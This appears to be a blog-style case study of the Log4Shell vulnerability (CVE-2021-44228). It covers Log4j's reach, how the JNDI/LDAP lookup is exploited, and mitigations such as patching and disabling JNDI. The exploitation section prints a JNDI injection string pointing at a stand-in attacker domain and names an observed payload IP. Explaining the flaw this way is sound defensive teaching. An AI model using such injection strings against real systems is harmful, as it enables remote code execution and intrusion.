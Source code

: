 ```yaml
---
layout: post
title: Log4j
tags: [case-study]
toc: true
---
```

CVE-2021-44228 - [NIST on National Vulnerability Database (NVD)](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

Seriousness of a vulnerability is viewed with two factors: 
1. the sheer number of systems that are vulnerable, and 
2. the ease with which an attacker can compromise a network

The vulnerability is associated with the user activity logger known as Log4J - a logging library freely distributed by the Apache Software Foundation. A security researcher working for Alibaba, Chen Zhaojun, first discovered the vulnerability and reported it to Apache on November 24, 2021 and since Dec 2021, Log4j was considered as a serious threat to come down the pipe in recent years. 

## What is Log4j and how impactful is the vulnerablity?
Log4j is a very popular Java library that has been around since 2001 and is used by countless pieces of software to log activity and error messages. Log4j will log messages in software and scan them for errors. The logging capabilities allow it to communicate with other internal functions on systems, such as directory services. This creates the opening for the vulnerability where remote code executions (RCE) allow an attacker to execute arbitrary code on a remote device.

Java is implemented across a wide spread range of digital products including cloud solutions, web servers, and apps making each of these products vulnerable to exploitation through the Log4Shell vulnerability. Hence, any Java software running systems can be impacted which is *a lot* of systems.

Because this security flaw is so widespread and most organizations are unaware that they're impacted, an exploitation frenzy is currently underway in the cybercriminal world. Security researchers have identified approximately **10 million Log4Shell exploitations attempts every hour**. Retail Industry is the most hard hit, followed by technology, financial services, manufacturing services and healthcare providers.

The [vulnerability CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) has been given the Critical rating and the highest threat score possible (10.0) by the Common Vulnerability Scoring System (CVSS), the industry standard for at-a-glance assessments of the severity of security vulnerabilities.

## How it's exploited
Lightweight Directory Acess Protocol (LDAP) is a open-source application protocol that allows apps to access and authenticate specific user info across directory services. Employees need to regularly access usernames, passwords, email addresses, endpoints, and printers to fulfill their daily tasks. Such information is stored on company directories and LDAP is the protocol that efficiently connects users and applications to this information.

LDAP maps usernames to passwords, the protocol to authenticate users. Thus allows single sign-on (SSO), where users need to sign in only once to access all protected files and applications.

The vulnerable Log4j library, when passed a specially crafted string, will call out to an LDAP server, download the code hosted in the LDAP directory, and then execute that code. 

The vulnerability occurs due to a lack of sanitization in the lookup method used in the log4j library. An attacker can leverage JNDI (Java Naming and Directory Interface) to perform a request to a remote malicious resource as follows: 
`==${jndi:ldap://[attacker_domain]/file}==`

Using different protocols such as ldap, rmi and commands like upper/ lower, an attacker can create multiple attack string combinations. In addition, many obfuscation techniques are observed to avoid detection:

![](../../../assets/images/log4j/exploit_variants.png)

This allows cybercriminals to create a malicious LDAP server that stores code designed to take-over any server where it is executed, and then send applications/databases/APIs the string that points to their code.

The primary attack is to feed messages to Log4j that instruct the system to download malicious powershell script (018h4xuvxe) and execute malware from a remote server, which then grants the attacker greater access to the victim’s system.

![](../../../assets/images/log4j/Log4j.png)

The IP 2.56.59[.]123 that contains the link for payload by HTTP request downloads the paylaod and executes the powershell script. Malware script can be written with persistence functionalities to maintain access even if the system restarts. 

## Safety Measures
1. Quickest way to mitigate is to update all instances of Log4j to the latest version - Log4j 2.17.x and latest version available
2. Utilise custom built Log4j Vulnerability scanners made by numerous popular and trusted security vendors from the Open Source - like CISA, Huntress, Arctic Wolf, CrowdStrike, Amazon Inspector & AWS, etc.,
3. Disable JNDI - A design flaw in the JNDI Lookup plugin is primarily to blame for this critical vulnerability. JNDI facilitates code execution based on data found in the log, data that can easily be manipulated since its accepted by the logger without sanitation.
4. Update all firewall and IPS and use NGFW
5. Implement MFA